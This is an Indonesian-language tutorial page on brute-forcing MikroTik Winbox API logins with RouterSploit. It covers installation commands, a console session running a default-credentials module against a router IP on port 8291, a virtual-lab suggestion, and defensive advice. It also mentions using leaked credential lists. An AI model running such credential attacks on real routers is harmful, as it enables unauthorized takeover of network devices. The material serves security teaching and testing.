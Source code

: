 ```yaml
---
sidebar_position: 1
---
```


# routersploit

## 1. Apa Itu Winbox API?
Winbox API adalah antarmuka yang digunakan oleh perangkat MikroTik untuk memungkinkan komunikasi antara klien dan router melalui protokol Winbox. API ini memungkinkan pengguna mengelola router secara remote menggunakan Winbox atau skrip otomatis.

## 2. Apa Itu Serangan Brute Force dan Hubungannya dengan Winbox API?
Serangan Brute Force adalah metode percobaan berulang kali terhadap kombinasi username dan password hingga menemukan kredensial yang valid. Dalam konteks Winbox API, serangan ini mencoba menebak username dan password untuk mendapatkan akses ke router MikroTik.

## 3. Langkah-Langkah Serangan Brute Force Terhadap Winbox API
### Persiapan:
- **Alat yang dibutuhkan:**
  - RouteSploit (Framework eksploitasi untuk jaringan)
- **Target:**
  - Alamat IP router MikroTik
  - Port default Winbox (8291) atau port yang dikustomisasi
- **Daftar username/password:**
  - Menggunakan daftar kredensial umum atau hasil leak dari sumber lain

### Proses Serangan:
1. Penyerang menggunakan RouteSploit untuk menjalankan eksploitasi brute force terhadap Winbox API.
2. RouteSploit secara otomatis mencoba berbagai kombinasi username dan password.
3. Jika kredensial benar, akses ke router diberikan.

### Analisis Hasil:
- Jika ditemukan username dan password yang valid, penyerang dapat masuk dan mengendalikan router.
- Log router dapat memberikan informasi tentang serangan yang berhasil atau gagal.

## 4. Instalasi dan Penggunaan RouteSploit untuk Brute Force
### Instalasi RouteSploit:
```bash
# Instal dependensi
sudo apt update && sudo apt install python3 python3-pip git -y

# Clone repository RouteSploit
git clone https://github.com/reverse-shell/routersploit.git

# Masuk ke direktori RouteSploit
cd routersploit

# Instal dependensi Python
pip3 install -r requirements.txt
```

### Menjalankan RouteSploit:
```bash
# Jalankan RouteSploit
python3 rsf.py
```

### Menggunakan RouteSploit untuk Brute Force Winbox API:
```bash
rsf > use creds/routers/mikrotik/api_ros_default_creds
rsf (Mikrotik Default Creds - API ROS) > set target 172.16.0.1
rsf (Mikrotik Default Creds - API ROS) > set port 8291
rsf (Mikrotik Default Creds - API ROS) > run
```

## 5. Praktik dalam Lingkungan Lab Virtual
1. Gunakan VirtualBox atau VMware untuk membuat lab virtual.
2. Instal RouterOS di dalam VM.
3. Konfigurasi Winbox API dengan username dan password default untuk pengujian.
4. Gunakan RouteSploit untuk menguji keamanan.

## 6. Cara Melindungi Diri dari Serangan Brute Force
- **Gunakan password yang kuat** (minimal 12 karakter, kombinasi huruf besar, kecil, angka, dan simbol).
- **Aktifkan firewall** untuk membatasi akses ke port Winbox API.
- **Ubah port default Winbox** dari 8291 ke port lain.
- **Pantau log aktivitas** di router secara rutin untuk mendeteksi upaya login mencurigakan.
- **Perbarui RouterOS** secara berkala agar mendapatkan patch keamanan terbaru.